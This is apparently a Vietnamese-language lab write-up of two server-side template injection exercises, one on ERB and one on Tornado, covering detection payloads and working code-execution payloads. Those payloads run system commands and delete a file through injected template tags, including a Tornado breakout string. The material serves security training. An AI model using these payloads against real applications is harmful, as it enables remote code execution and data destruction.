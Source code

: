 # Trần Mạnh Huy  SSTI-Server side template injection

* [Lab 1: Basic server-side template injection](#lab-1-basic-server-side-template-injection)
* [Lab 2: Basic server-side template injection (code context)](#lab-2-basic-server-side-template-injection-code-context)

## Lab 1: Basic server-side template injection

```
 This lab is vulnerable to server-side template injection due to the unsafe construction of an ERB template.

To solve the lab, review the ERB documentation to find out how to execute arbitrary code, then delete the morale.txt file from Carlos's home directory. 

```

### Ở bài lab này thì biết được luôn template là ERB, hoặc kh thì ta lên Payload All The Things thử từng cái một cũng được.

Đầu tiên check view details từng sản phẩm, để ý ở sản phẩm đầu tiên trả về message = ***Unfortunately this product is out of stock***, còn những cái khác còn nên vẫn vào bình thường, khai thác SSTI ở đây bằng cách dùng payload hoạt động được trên template erb, khi chạy qua template engine để xử lí, nó sẽ được thực thi. 

![](https://github.com/manhhuy2002/hello-world/blob/main/ssti/lab1_01.jpg)

#### Test payload để xác nhận là ssti của erb template: <%= 7*7 %> . Ta được server trả về kết quả: 49. Vậy là xác nhận xong

![](https://github.com/manhhuy2002/hello-world/blob/main/ssti/lab1_02.jpg)

#### Tiếp theo đến với việc khai thác, sử dụng **<%= system('pwd') %>** để kiểm tra xem đang nằm ở đâu hoặc dùng **<%= system('ls /) %>** để xem thư mục gốc chứa những file hay folder nào :

![](https://github.com/manhhuy2002/hello-world/blob/main/ssti/lab1_03.jpg)

#### Vậy là đang ở trong thư mục /home/carlos . Để hoàn thành thì ls thử được file **morale.txt** . Việc còn lại để hoàn thành bài lab chỉ cần delete file là xong.
Dùng payload: ***<%= system('rm morale.txt) %>***

![](https://github.com/manhhuy2002/hello-world/blob/main/ssti/lab1_04.jpg)

## Lab 2: Basic server-side template injection (code context)

```
 This lab is vulnerable to server-side template injection due to the way it unsafely uses a Tornado template. To solve the lab, review the Tornado documentation to discover how to execute arbitrary code, then delete the morale.txt file from Carlos's home directory.

You can log in to your own account using the following credentials: wiener:peter 

```

#### Bài lab này cần đăng nhập tài khoản, wiener:peter . Sau khi đăng nhập thì check thử phần my account, ta thấy có phần update email với phần preferrd name có thể thực hiện giao thức POST. 

![](https://github.com/manhhuy2002/hello-world/blob/main/ssti/lab2_01.jpg)

Thử để giá trị ***first name*** và ***name*** và check phần comment thử: 

![](https://github.com/manhhuy2002/hello-world/blob/main/ssti/lab2_02.jpg)

![](https://github.com/manhhuy2002/hello-world/blob/main/ssti/lab2_03.jpg)

Rõ ràng là server đã dùng tags để xử lí logic qua template engine, cụ thể ở đây là template Tornado. Cụ thể ta có check ở burp suite sau khi sửa dổi phần ***preferred name*** thành ***username***và ***submit*** được như sau:

![](https://github.com/manhhuy2002/hello-world/blob/main/ssti/lab2_04.jpg)

Để ý thấy phần display=user.username, đúng chuẩn xử lí tags trong template engine luôn, đến đây thay bằng 1 sô payload của Tornado ssti như sau:


```
{{7*7}} = 49
${7*7} = ${7*7}
{{foobar}} = Error
{{7*'7'}} = 7777777
______
{% import foobar %} = Error
{% import os %}

{% import os %}

{{os.system('whoami')}}
{{os.system('whoami')}}
_______

```
Vì user.username đã ở sẵn trong filters (chuyển hóa các giá trị của biến và đối số trong tags) có dạng {{}} nên test chỉ việc dùng 7*7 thay vào chỗ user.username. Ta được:

![](https://github.com/manhhuy2002/hello-world/blob/main/ssti/lab2_05.jpg)

#### Bây giờ thực hiện code để xóa file morale.txt thôi nào: 

Dùng payload sau để hiển thị đường dẫn thư mục hiện tại:

```
{% import os %}

{{os.system('whoami')}}

```
Lúc đầu thử truyền vào giá trị {%+import+os+%}+{{os.system('pwd')}} thì toàn hiển thị lỗi, sau 1 lúc thử lại thì nhớ ra là biến đang được xử lí trong filter/tags {{}} . Vì vậy để truyền vào giá trị trên thì cần sửa payload như sau: ***user.nickname}}{%+import+os+%}+{{os.system('pwd')*** . Lúc này template engine sẽ xử lí: {{user.nickname}} {% import os %} và {{os.system('pwd'}}. Ta được:

![](https://github.com/manhhuy2002/hello-world/blob/main/ssti/lab2_06.jpg)

#### Đến đây thì tương tự như bài trên, đang ở đường dẫn: /home/carlos nên sửa pwd thành ls sẽ có file morale.txt được hiển thị. Để giải quyết bài lab, sửa payload thành : 

```
***user.nickname}}{%+import+os+%}+{{os.system('rm morale.txt')*** 
```

Như vậy là ta đã xóa được file morale.txt như bài lab mong muốn.

